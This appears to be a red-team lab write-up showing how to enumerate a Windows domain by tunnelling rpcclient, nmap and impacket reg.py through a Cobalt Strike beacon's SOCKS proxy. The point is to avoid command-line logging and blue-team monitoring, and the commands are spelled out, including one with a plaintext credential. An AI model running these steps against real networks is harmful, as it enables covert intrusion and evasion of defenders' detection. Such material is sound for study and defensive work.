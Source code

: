 ```yaml
---
layout: post
title: "enumerating windows domains using rpcclient through socksproxy bypassing command line logging"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /enumerating-windows-domains-using-rpcclient-through-socksproxy-bypassing-command-line-logging/
---
```


---
layout: post
title: "enumerating windows domains using rpcclient through socksproxy bypassing command line logging"
date: 2024-06-18
categories: enumeration-and-discovery
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /enumerating-windows-domains-using-rpcclient-through-socksproxy-bypassing-command-line-logging/
---

# Enumerating Windows Domains with rpcclient through SocksProxy == Bypassing Command Line Logging

This lab shows how it is possible to bypass commandline argument logging when enumerating Windows environments, using Cobalt Strike and its socks proxy (or any other post exploitation tool that supports socks proxying).&#x20;

In other words - it's possible to enumerate AD (or create/delete AD users, etc.) without the likes of:

* net user
* net user \<bla> /domain
* net user \<bla> \<bla> /add /domain
* net localgroup
* net groups /domain
* and similar commands

...which most likely are monitored by the blue team.

## Assumption

In this lab, it is assumed that the attacker/operator has gained:

* code execution on a target system and the beacon is calling back to the team server
* valid set of domain credentials for any `authenticated user`

## Lab Environment

| IP       | What's behind                                                  |
| -------- | -------------------------------------------------------------- |
| 10.0.0.5 | attacker with kali and `rpcclient`                             |
| 10.0.0.2 | compromised Windows system `WS01`                              |
| 10.0.0.6 | Windows DC `DC01` to be interrogated by 10.0.0.5 via 10.0.0.2  |
| 10.0.0.7 | Windows box `WS02` to be interrogated by 10.0.0.5 via 10.0.0.2 |

## Execution

The below shows a couple of things. First one - two Cobalt Strike sessions:

* PID 4112 - original beacon
* PID 260 - beacon injected into dllhost process

Second - attacker opens a socks4 proxy on port 7777 on his local kali machine (10.0.0.5) by issuing:

{% code title="attacker@cobaltstrike" %}
```
socks 7777
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-05 00-08-58.png>)

This means that the attacker can now use proxychains to proxy traffic from their kali box through the beacon to the target (attacker ---> beacon ---> end target).

Let's see how this works by firstly updating the proxychains config file:

{% code title="attacker@kali" %}
```
nano /etc/proxychains.conf
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-20-21.png>)

### Enumeration

Once proxychains are configured, the attacker can start enumerating the AD environment through the beacon like so:

{% code title="attacker@kali" %}
```
proxychains rpcclient 10.0.0.6 -U spotless
enumdomusers
```
{% endcode %}

![Victim (10.0.0.2) is enumerating DC (10.0.0.6) on behalf of attacker (10.0.0.5)](<../../.gitbook/assets/Screenshot from 2019-02-05 20-22-43.png>)

Moving on, same way, they can query info about specific AD users:

{% code title="attacker@kali" %}
```
queryuser spotless
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-34-33.png>)

Enumerate current user's privileges and many more (consult rpcclient for all available commands):

{% code title="attacker@kali" %}
```
enumprivs
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-34-42 (1).png>)

Finally, of course they can run nmap if needed:

{% code title="attacker@kali" %}
```csharp
proxychains nmap 10.0.0.6 -T4 -p 21,22,23,53,80,443,25 -sT
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-36-48.png>)

### Impacket

Impacket provides even more tools to enumerate remote systems through compromised boxes. See the below example gif.&#x20;

This is what happens - attacker (10.0.0.5) uses proxychains with impacket's reg utility to retrieve the hostname of the box at 10.0.0.7 (WS02) via the compromised (CS beacon) box 10.0.0.2 (WS01):

{% code title="attacker@kali" %}
```csharp
proxychains reg.py offense/administrator:123456@10.0.0.2 -target-ip 10.0.0.7 query -keyName hklm\system\currentcontrolset\control\computername\computername
```
{% endcode %}

The below shows traffic captures that illustrate that the box 10.0.0.2 enumerates 10.0.0.7 using SMB traffic only:

![](<../../.gitbook/assets/Peek 2019-02-09 19-50.gif>)

Below further proves that the box 10.0.0.2 (WS01 which acted as proxy) did not generate any sysmon logs and the target box 10.0.0.7 (WS02) logged a couple of events, that most likely would not attract much attention from the blue teams:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 19-59-58.png>)

## Observations

Note how only the SMB traffic between the compromised system and the DC is generated, but no new processes are spawned by the infected `dllhost` process:

![](<../../.gitbook/assets/Peek 2019-02-05 20-24.gif>)

![](<../../.gitbook/assets/Screenshot from 2019-02-04 23-18-20.png>)

## References

{% embed url="https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html" %}

{% embed url="https://github.com/SecureAuthCorp/impacket/tree/master/examples" %}

{% embed url="https://www.cobaltstrike.com/help-socks-proxy-pivoting" %}

{% embed url="https://www.youtube.com/watch?v=l8nkXCOYQC4&index=19&list=WL&t=7s" %}

@spotheplanet
